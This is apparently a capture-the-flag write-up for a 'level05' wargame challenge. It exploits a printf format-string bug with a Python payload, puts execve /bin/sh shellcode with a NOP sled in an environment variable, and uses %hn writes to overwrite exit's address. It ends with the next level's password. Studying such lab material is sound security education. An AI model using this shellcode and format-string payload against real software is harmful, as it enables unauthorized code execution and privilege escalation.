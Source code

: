 We get the binary out of the Vm using this cmd:

`scp -P 4242 level05@192.168.56.103:./level05 .binary/level2`

printf exploit, find the offset :\
We know addr of the prnitf format string (our input) is `0x0804846e`

`python -c "print '\x08\x04\x84\x6e'[::-1] + '%p '* 10" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level05`

we got this
```
n0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ff 0xffffd5fe (nil) 0xffffffff 0xffffd684 0xf7fdb000 0x804846e 
```
so offset is 10

Lets put a shellcode in a env variable
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

We need it's addr so let's use a small c file :
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc != 2)
		return (printf("need te env var you want the addr of\n"));
	printf("Var [%s] at addr [%p] = [%s]\n", argv[1], getenv(argv[1]), getenv(argv[1]));
	return 0;
}
```

compile with flag -m32 to get the 32 bit addr


* shellcode addr : `0xffffd80f` => decimal => 4294957071 (it's big, let's put it in two part)
					65535  55311
* addr of exit   : `0xf7e5eb70`

We want to put short value like this:

`\x08\x04\x97\xe0` + 2 <= `ffff` <= 65535
`\x08\x04\x97\xe0`     <= `d80f` <= 55311


`python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55303c' + '%10\$hn' + '%10224c' + '%11\$hn'"> /tmp/exploit_5; cat /tmp/exploit_5 - | ./level05`

```s
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
